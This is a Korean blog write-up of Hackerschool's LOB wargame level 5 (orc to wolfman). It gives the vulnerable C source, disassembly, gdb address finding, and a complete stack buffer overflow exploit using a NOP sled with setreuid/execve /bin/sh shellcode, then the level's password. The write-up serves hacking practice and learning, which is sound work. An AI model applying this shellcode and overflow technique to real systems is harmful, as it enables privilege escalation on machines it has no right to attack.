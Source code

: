 ```yaml
---
date: '2022-10-15'
before : '2022-10-14'
after : '2022-10-16'
title: 'FTZ LOB LEVEL 5'
categories: [ 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제도 저번 문제와 크게 다르지 않았다.

### 1. Level 5 : Orc -> Wolfman

소스코드를 확인해 보자!

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

어셈블리 코드도 확인해보자!
```
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %ebp,%esp
0x8048503 <main+3>:     sub    %esp,44
0x8048506 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:    jg     0x8048523 <main+35>
0x804850c <main+12>:    push   0x8048640
0x8048511 <main+17>:    call   0x8048410 <printf>
0x8048516 <main+22>:    add    %esp,4
0x8048519 <main+25>:    push   0
0x804851b <main+27>:    call   0x8048420 <exit>
0x8048520 <main+32>:    add    %esp,4
0x8048523 <main+35>:    nop
0x8048524 <main+36>:    mov    DWORD PTR [%ebp-44],0x0
0x804852b <main+43>:    nop
0x804852c <main+44>:    lea    %esi,[%esi*1]
0x8048530 <main+48>:    mov    %eax,DWORD PTR [%ebp-44]
0x8048533 <main+51>:    lea    %edx,[%eax*4]
0x804853a <main+58>:    mov    %eax,%ds:0x8049760
0x804853f <main+63>:    cmp    DWORD PTR [%eax+%edx],0
0x8048543 <main+67>:    jne    0x8048547 <main+71>
0x8048545 <main+69>:    jmp    0x8048587 <main+135>
0x8048547 <main+71>:    mov    %eax,DWORD PTR [%ebp-44]
```

사실 밑에 buffer hunter라는 녀석이 생긴 것 말고는 달라진 점은 없다. 우리는 어차피 NOP SLED 방식을 활용하므로 buffer hunter로 초기화해도 프로그램 실행 흐름상 버퍼오버플로우를 발생시키는 것에 무리는 없다.


저번 문제와 똑같이 카피코드를 gdb로 디버깅해서 주소를 찾았다.

```
b * main

r `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'` `python -c "print '\x90'*200+"B"*40'`

//대략적인 주소
0xbffffc3c
```

익스플로잇 :
```
./wolfman `python -c "print 'A'*44 + '\x3c\xfc\xff\xbf'"` `python -c "print '\x90' * 200 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"`
```

비밀번호 : love eyuna

 ---
## Source

- 해커스쿨 FTZ
- Me!

